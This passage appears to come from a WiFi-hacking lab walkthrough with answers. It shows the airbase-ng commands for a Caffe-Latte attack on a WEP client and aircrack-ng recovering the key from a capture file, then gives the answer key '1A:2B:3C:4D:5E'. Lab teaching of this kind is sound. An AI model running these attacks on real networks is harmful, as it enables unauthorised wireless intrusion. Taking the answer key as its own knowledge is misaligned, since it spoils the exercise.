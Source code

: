 Students will notice in the `airbase-ng` terminal (and process) the start of the `Caffe-Latte` attack has begun:

```
wifi@WiFiIntro:~$ sudo airbase-ng -c 1 -a D8:D6:3D:EB:29:D5 -e "HackTheWifi" wlan0mon -W 1 -L

09:47:16  Created tap interface at0
09:47:16  Trying to set MTU on at0 to 1500
09:47:16  Trying to set MTU on wlan0mon to 1800
09:47:16  Access Point with BSSID D8:D6:3D:EB:29:D5 started.
09:50:39  Client BE:BC:63:C4:BF:DC associated (WEP) to ESSID: "HackTheWifi"
09:50:39  Starting Caffe-Latte attack against BE:BC:63:C4:BF:DC at 100 pps.
```

After a while, students will stop the processes (`airbase-ng`, `aireplay-ng`, and `airodump-ng`) with the key combination of `CTRL + C`. Subsequently, students will use `aircrack-ng` to retrieve the key by specifying the MAC address of the access point and the `Student-01.cap` packet capture file:

Code: shell

```shell
aircrack-ng -b D8:D6:3D:EB:29:D5 Student-01.cap
```

```
wifi@WiFiIntro:~$ aircrack-ng -b D8:D6:3D:EB:29:D5 Student-01.cap

Reading packets, please wait...
Opening Student-01.cap
Read 294993 packets.

1 potential targets       Got 54520 out of 50000 IVsStarting PTW attack with 54520 ivs.
Attack will be restarted every 5000 captured ivs.

                               Aircrack-ng 1.6 

                 [00:00:00] Tested 3 keys (got 54469 IVs)

   KB    depth   byte(vote)
    0    0/  1   1A(73472) 60(63744) 34(63488) 4F(63488) 31(63232) 
    1    0/  1   2B(77568) 1F(64768) 71(62976) 21(62464) B8(62208) 
    2    0/  1   3C(72704) A1(65024) B6(63488) C3(62976) BA(62464) 
    
<SNIP>

                     KEY FOUND! [ {hidden} ] 
	Decrypted correctly: 100%
```

Answer: `1A:2B:3C:4D:5E`

# Additional WEP Cracking

## Question 1
